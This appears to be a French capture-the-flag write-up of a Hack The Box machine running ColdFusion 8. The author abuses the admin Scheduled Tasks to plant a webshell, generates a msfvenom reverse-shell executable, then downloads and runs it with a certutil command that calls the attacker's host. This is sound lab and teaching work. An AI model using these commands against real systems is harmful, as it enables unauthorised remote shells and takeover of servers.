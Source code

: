 En cliquand sur `Submit` le site me redirige dans `http://10.129.201.72:8500/CFIDE/administrator/index.cfm` suivi des `Sheduled Tasks`.

- A partir d'ici je clique sur `Run Sheduled Tasks` Dans les icons d'`Actions`

![Shedule](https://i.ibb.co/ZJq7mSR/Screenshot-2024-02-29-at-19-47-16-Scheduled-Tasks.png)

Je retourne dans mon Terminal et je trouve que :
```terminal
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.201.72 - - [29/Feb/2024 19:46:23] "GET /webshell.cfm HTTP/1.1" 200 -
10.129.201.72 - - [29/Feb/2024 19:47:07] "GET /webshell.cfm HTTP/1.1" 200 -
```

Mon shell a bien ete telecharger sur la Box. Maintenant il faut retrouver notre fichier et l'executer.

- En sachant que mon fichier je l'ais mise sous le nom de `hacked.cfm` dans le `/CFIDE` de `C:\ColdFusion8\wwwroot\CFIDE/hacked.cfm`
- Alors en visitant le `http://10.129.201.72:8500/CFIDE/` je trouve bien mon fichier ecrite et en l'executant avec `whoami`

![Fichier](https://i.ibb.co/1TKjb8x/Screenshot-2024-02-29-at-19-58-10-Error-Occurred-While-Processing-Request.png)

Avec `curl` je vais voir ce qui est ecrite dans ce fichier


```terminal
└─# curl -s "http://10.129.201.72:8500/CFIDE/hack.txt"  
arctic\tolis
```

- Pour avoir un shell dans ma machine, je vais me creer un payload `.exe` avec `msfvenom` puis l'envoyer dans le site grace un `http.server` et en l'ecrivant dans le `C:\ColdFusion8\wwwroot\CFIDE/` et l'executer avec le `curl`

```terminal
┌──(root㉿xXxX)-[/home/…/CTFs/Boot2root/HTB/exploits]
└─# msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=1337 -f exe > reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

┌──(root㉿xXxX)-[/home/…/CTFs/Boot2root/HTB/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Dans l'option voici ma commande : `/c "certutil.exe -urlcache -f http://10.10.16.5/reverse.exe C:\ColdFusion8\wwwroot\CFIDE/hacked.exe"` et `TimeOut` a 5
Enfin en executant le payload avec `/c C:\ColdFusion8\wwwroot\CFIDE/hacked.exe` j'obtiens

![Hacked](https://i.ibb.co/NKfzK8f/b4.png)
